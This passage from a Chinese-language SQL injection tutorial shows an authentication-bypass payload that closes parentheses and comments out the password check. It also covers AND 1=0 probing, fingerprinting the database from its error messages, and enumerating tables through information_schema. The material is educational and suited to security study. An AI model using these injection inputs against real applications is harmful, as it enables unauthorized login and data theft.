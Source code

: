 
可以看到，这次升级一方面在username部分新增了括号，另一方面在处理password时，选择了MD5散列结果进行比较，最后又统计了查询结果的数量，经过升级之后，上一次的构造就无法生效了。

这时，如果我们想要构造新的参数完成SQL注入，就要解决三个问题，第一是括号的闭合，第二是password部分的比对，第三是要确保查询数量为1。于是我们构造如下输入：

$username = 1' or '1' = '1')) LIMIT 1 --
$password = test


将参数代入后查询语句变成：

SELECT count(*) FROM users WHERE ((username='1' or '1' = '1')) LIMIT 1 --') AND (password=MD5('$password')));


可以发现上述SQL语句实现了括号的闭合、忽略了password判断部分，并且限制结果数量为1，这段语句同时满足了3个限制条件，成功实现了SQL注入攻击。

在基本起手式阶段，除了这种使用'来进行注入探测的方式以外，我们还可以使用AND符号来判断参数是否可以被当做运算符参与代码执行。以常见的CMS类型系统为例，常见的帖子链接如下：

https://example.com/article.php?id=1


在已知【id=1帖子】存在的情况下，我们可以将id参数设置为1 AND 1=0，并且和SQL语句完成拼接：

SELECT * from articles WHERE article_id = 1 AND 1=0;


如果该页面无法显示内容，就说明1 AND 1=0中后半部分的False结果参与了运算，依此可以判断SQL注入漏洞的存在。

数据库信息

通过起手式阶段的基本动作，我们可以发现SQL注入漏洞是否存在。

在成功发现SQL注入漏洞之后，为了给后续更高级的注入动作做好铺垫，我们需要进入一个新的阶段–获取数据库信息。而之所以展开讲述这部分的主要原因是，虽然SQL语句是相对标准化的，但是每种DBMS在特殊指令、获取数据操作等方面都会有一些差异，因此在实际SQL注入过程中我们需要考虑到数据库差异使用不同的语法。

如果我们想要判断一个后端数据库的类型，让这个数据库报错是一个快速的方法。这里我们列举几种常见的错误信息，可以发现MySQL、MS SQL Server、PostgreSQL的报错信息都有比较明显的特征：

You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version ...
Microsoft SQL Native Client error ...
Query failed: ERROR: syntax error at or near ...


事实上，对于不同类型的数据库，获取其数据库种类和版本号的SQL语句也会有一些差异：

SELECT @@version; -- Microsoft, MySQL
SELECT * FROM v$version; -- Oracle
SELECT version(); -- PostgreSQL




除了数据库类型和版本信息，还有哪些信息是攻击者想知道的呢？我们只要想想后面注入过程需要哪些信息，答案就不辩自明了，其实，就是数据库中包含的表，和每张表的结构信息。令人欣慰的是，数据库中有一张表存储了这些信息，这张表是information_schema。通过如下SQL语句可以查询出数据库中有哪些表以及每张表的结构：

SELECT * FROM information_schema.tables;
SELECT * FROM information_schema.columns WHERE table_name = 'users';
SELECT * FROM all_tables; -- For Oracle
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'; -- For Oracle


总结

